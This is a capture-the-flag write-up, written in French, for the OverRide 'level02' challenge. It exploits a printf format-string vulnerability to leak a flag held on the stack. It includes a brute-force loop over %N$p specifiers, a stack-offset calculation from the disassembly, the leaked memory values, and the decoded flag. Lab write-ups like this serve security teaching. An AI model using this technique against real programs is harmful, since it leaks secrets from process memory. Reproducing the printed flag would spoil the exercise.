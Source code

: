 Level02

Le programme va ouvrir le flag avec opens pour le stocker dans une variable local.
Celui-ci nous demande une entree et va l'afficher avec printf, donc nous allons essayer d'afficher la valeur stocker dans la variable local qui stock le flag grace a printf.

On va utiliser les options suivantes de printf : 
- %p Pointeur (adresse mémoire)
- %x Entier non signé en hexadécimal (minuscules)

Etape suivant : trouver l'addresse ou est stocker le flag, que nous savons etre une string.
2 Solutions : # level02

## Analyse du programme
Le binaire ouvre le flag avec `open` et le stocke dans une variable locale.  
Ensuite, il lit une entrée utilisateur et l’affiche avec `printf`.  
On peut donc exploiter une **vulnérabilité de format string** pour afficher la valeur stockée dans cette variable locale contenant le flag.

---

## Options utiles de printf
- `%p` : affiche un pointeur (adresse mémoire)  
- `%x` : affiche un entier non signé en hexadécimal  

---

## Méthode pour retrouver le flag

### Étape 1 : identifier l’adresse
On sait que le flag est une **string** stockée sur la pile. Deux solutions :

**Solution 1 — brute force**  
1 - faire une boucle sur n variable jusqu'a trouver un format qui ressemble a une sting
```for(( i = 1; i < 100; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done```

**Solution 2 - analyse assembler**
  
```  &buffer_flag : 0x00000000004008e6 <+210>:   lea    -0xa0(%rbp),%rax```

[RBP - 0xa0]

Taille de la stack frame : ```0x0000000000400818 <+4>:     sub    $0x120,%rsp
[0x120] = 288 octets```

Distance dans la stack de l'arg = ```[RBP - 0xa0] - [RBP - 0x120] = 0x120 - 0xa0 = 0x80 bytes```

chaque argument fait 8 octets, donc :
0x80 / 8 = 16 slots

Le premier slot sur la pile est l'argument 6  (les 5 premiers etant reserve a RSI, RDX,RCX, R8, R9)

Index = 16 + 6 = 22.

```
level02@OverRide:~$ for((i = 22; i < 32; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done  
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
27 - 0xfeff00 does not have access!
28 - 0x383225202d203832 does not have access!
29 - 0x7024 does not have access!
30 - (nil) does not have access!
31 - (nil) does not have access!
```

on voit que les 5 premieres address match un format 
```
level02@OverRide:~$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
level02@OverRide:~$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
level02@OverRide:~$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
level02@OverRide:~$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
level02@OverRide:~$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
level02@OverRide:~$ Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H: command not found```
